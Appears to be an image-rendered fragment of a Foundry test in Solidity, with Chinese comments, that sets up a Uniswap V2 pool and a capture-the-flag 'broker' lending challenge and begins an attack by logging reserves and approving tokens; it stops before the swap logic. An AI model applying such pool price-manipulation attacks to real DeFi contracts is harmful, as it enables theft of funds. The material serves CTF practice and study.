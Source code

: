 ```solidity
    Broker public broker;

    // uniswapV2系统
    Iu_factory u_factory;
    Iu_router u_router;
    Token Ltoken;
    IPair pair;

    function setUp() public {
        // 创建WETH9合约
        weth = IWETH9(deployHelper_weth(weth9_Artifact));
        vm.label(address(weth), "weth");

        // 创建uniswapV2系统

        // 部署u_factory
        u_factory = Iu_factory(deployHelper_u_factory());
        vm.label(address(u_factory), "u_factory");

        // 部署u_router
        u_router = Iu_router(deployHelper_u_router(address(u_factory), address(weth)));
        vm.label(address(u_router), "u_router");
        
        // 初始化题目合约
        level = new Setup{value: 50 ether}(address(weth), address(u_factory));
        vm.label(address(level), "level");

        broker = level.broker();
        vm.label(address(broker), "broker");
        Ltoken = level.token();
        vm.label(address(Ltoken), "Ltoken");

        // 标记pair
        pair = IPair(pairFor(address(u_factory), address(Ltoken), address(weth)));
        vm.label(address(pair), "pair");
    }

    function test_isComplete() public payable{
        
        // 获得一些WETH，用来在池子里swap
        uint256 amount_WETH = 25 ether;
        weth.deposit{value: amount_WETH}();

        console.log("==========before attack=========");
        (uint112 reserve0_before, uint112 reserve1_before , uint32 z ) = pair.getReserves();
        console.log("the pool");
        console.log("   reserve0_WETH_before",reserve0_before);
        console.log("   reserve1_Ltoken_before",reserve1_before);
        console.log("My asset");
        console.log("   WETH", weth.balanceOf(address(this)));
        console.log("   Ltoken", Ltoken.balanceOf(address(this)));
        console.log("WETH price", broker.rate());
        console.log("liquidate's WETH price 15000");
        console.log("broker's WETH", weth.balanceOf(address(broker)));

        // 准备
        weth.approve(address(broker), type(uint256).max);
        weth.approve(address(u_router), type(uint256).max);
        Ltoken.approve(address(broker), type(uint256).max);
        Ltoken.approve(address(u_router), type(uint256).max);

        // 把WETH换成Ltoken
        address[] memory path = new address[](2);
```